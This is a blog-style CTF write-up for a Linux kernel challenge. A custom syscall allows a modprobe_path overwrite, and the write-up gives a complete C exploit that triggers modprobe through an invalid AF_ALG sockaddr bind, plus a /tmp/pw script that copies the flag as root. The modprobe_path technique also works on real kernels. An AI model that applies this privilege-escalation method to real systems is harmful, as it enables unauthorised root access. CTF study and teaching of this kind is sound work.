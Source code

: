 ```yaml
---
date: '2025-07-08T08:58:13+05:30'
draft: false
title: 'No 549'
tags:
- pwn
- kernel
- modprobe
---
```


`modprobe_path` overwrite exploit after [kernel commit `fa1bdca98d74472dcdb79cb948b54f63b5886c04`](https://web.git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=fa1bdca98d74472dcdb79cb948b54f63b5886c04).
trigger modprobe using `struct sockaddr_alg`.

First ever kernel pwn!

<!--more-->

## Observation

We are given a gzipped tarball, containing usual kernel pwn stuffs (bzImage, initramfs, qemu script, docker, etc.), and a syscall_64.tbl with the following entry, hinting a custom syscall.

```
549  common  naup  sys_naup
```

First thing to do is convert the bzImage to a debuggable ELF file, with the following tools

```bash
./extract-vmlinux.sh bzImage >vmlinux
./vmlinux-to-elf/vmlinux-to-elf ./vmlinux ./vmlinux.elf
```

Open it up in ghidra, and find the implementation of the `naup` syscall

![naup-syscall](images/ghidra-re.png)

It does the following:
1. Ensure first parameter points to `modprobe_path`
2. Copy 8 bytes pointed to by the second argument.
3. Store the 8 bytes in `modprobe_path`.

So, we have a `modprobe_path` overwrite - a standard method for privilege escalation.

### modprobe_path overwrite - how it works

The modprobe_path variable stores a path to an executable that is executed with root privileges when an unknown module is loaded.

Example:
1. (PATCHED IN kernel commit [`fa1bdca98d74472dcdb79cb948b54f63b5886c04`](https://web.git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=fa1bdca98d74472dcdb79cb948b54f63b5886c04)) When you try running a file with unrecegonized magic bytes (unrecegonized file format), the modprobe program will be executed with root privileges.
2. When you pass an invalid `struct sockaddr_alg` to `bind`.

We will be using the 2nd method to pwn the kernel here.

## Exploit

Compile the exploit, and copy it over to the target system.

```c
// exploit.c
// gcc exploit.c -o exploit -fstatic
#define _GNU_SOURCE
#include <stdio.h>
#include <sys/syscall.h>
#include <unistd.h>

#include <fcntl.h>
#include <linux/if_alg.h>
#include <string.h>
#include <sys/socket.h>

int main(int argc, char *argv[argc]) {
  long ret;
  unsigned char buf[] = "/tmp/pw\x00";

  ret = syscall(549, 0xffffffff82b45b20, &buf[0], 0x3333333333333333);

  if (ret == -1) {
    perror("syscall 549 failed");
  } else {
    printf("syscall 549 returned: %ld\n", ret);
  }

  int alg_fd = socket(AF_ALG, SOCK_SEQPACKET, 0);
  if (alg_fd < 0) {
    perror("socket(AF_ALG) failed");
    return 1;
  }

  struct sockaddr_alg sa;
  memset(&sa, 0, sizeof(sa));
  sa.salg_family = AF_ALG;
  strcpy((char *)sa.salg_type, "pwnme"); // dummy string
  bind(alg_fd, (struct sockaddr *)&sa, sizeof(sa));

  return 0;
}

// 0xffffffff82b45b20 T modprobe_path
// 0xffffffff82b45b20
// vim: sw=2
```

Execute the exploit. The `modprobe_path` will have changed to `/tmp/pw`.



Create a script `/tmp/pw` with the following contents and make it executable.

```bash
$ cat <<EOF >/tmp/pw
#!/bin/sh

cp /flag.txt /tmp/flag.txt
cp /flag /tmp/flag

chmod 777 /tmp/flag.txt
chmod 777 /tmp/flag

EOF
$ chmod 777 /tmp/pw
```

Run the exploit again to trigger the `struct sockaddr_alg` corruption, which will cause the `modprobe_path` program to be executed as root.

```bash
$ cat /tmp/flag
```



